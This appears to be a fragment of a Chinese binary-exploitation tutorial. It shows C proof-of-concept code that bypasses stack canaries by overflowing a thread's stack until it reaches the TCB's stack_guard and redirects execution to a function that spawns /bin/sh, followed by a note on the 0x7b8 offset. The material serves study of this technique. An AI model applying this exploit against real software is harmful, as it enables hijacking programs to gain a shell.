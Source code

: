 举个例子

```bash
void pwn_payload() {
    char *argv[2] = {"/bin/sh", 0};
    execve(argv[0], argv, 0);
}

int fixup = 0;
void * first(void *x)
{
    unsigned long *addr;
    arch_prctl(ARCH_GET_FS, &addr);
    printf("thread FS %p\n", addr);
    printf("cookie thread: 0x%lx\n", addr[5]);
    unsigned long * frame = __builtin_frame_address(0);
    printf("stack_cookie addr %p \n", &frame[-1]);
    printf("diff : %lx\n", (char*)addr - (char*)&frame[-1]); 
    unsigned long len =(unsigned long)( (char*)addr - (char*)&frame[-1]) + 
fixup;
    // example of exploitation
    // prepare exploit
    void *exploit = malloc(len);
    memset(exploit, 0x41, len);
    void *ptr = &pwn_payload;
    memcpy((char*)exploit + 16, &ptr, 8);
    // exact stack-buffer overflow example
    memcpy(&frame[-1], exploit, len);
    return 0;
}

int main(int argc, char **argv, char **envp)
{
    pthread_t one;
    unsigned long *addr;
    void *val;
    arch_prctl(ARCH_GET_FS, &addr);
    if (argc > 1)
        fixup = 0x30;
    printf("main FS %p\n", addr);
    printf("cookie main: 0x%lx\n", addr[5]);
    pthread_create(&one, NULL, &first, 0);
    pthread_join(one,&val);
    return 0;
}
```

```bash
在当前栈帧和 TCB 结构之间的距离等于 0x7b8，小于一页，只要溢出的字节够多，就可以把 TCB 中的 tcbhead_t.stack_guard 覆盖掉。
```

### 利用前提
